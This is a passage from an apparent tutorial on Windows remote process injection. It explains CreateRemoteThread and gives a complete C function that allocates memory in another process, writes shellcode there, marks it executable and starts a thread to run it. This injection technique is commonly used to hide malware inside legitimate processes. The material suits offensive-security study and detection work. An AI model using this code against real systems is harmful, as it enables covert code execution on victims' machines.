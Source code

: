 The last parameter is a pointer to a variable that will receive the type of protection prior to the change.

## **Execute the shellcode**

A handle to the remote process was obtained, a buffer was assigned, the shellcode was written into the buffer, and execution permissions were granted. It only remains to execute it, by creating a new thread.

### CreateRemoteThread

Allows creating a thread that will run in the virtual memory of the remote process.

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```
For this case, only two arguments will need to be passed, the handle of the process (**`hProcess`**), and the buffer (**`lpStartAddress`**). For the rest of the parameters, NULL can be placed.

> A function can also be created for injection that will consist of three parameters. The first (**`hProcess`**) is the HANDLE to the remote process, the second (**`pShellcode`**) is a pointer to the shellcode, and the third (**`sShellcodeSize`**) is the size of the shellcode.
{: .prompt-info}
## **Function InjectRemoteProcess**
```c
BOOL InjectRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sShellcodeSize){

	PVOID pShellcodeAddress = NULL;
	DWORD dwOldProtection = NULL;

	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pShellcodeAddress == NULL){
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sShellcodeSize, NULL)) {
		return FALSE;
	}

	memset(pShellcode, '\0', sShellcodeSize);

	if (!VirtualProtectEx(hProcess, pShellcodeAddress, sShellcodeSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
		return FALSE;
	}

	if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
		return FALSE;
	}

	return TRUE;
}
```
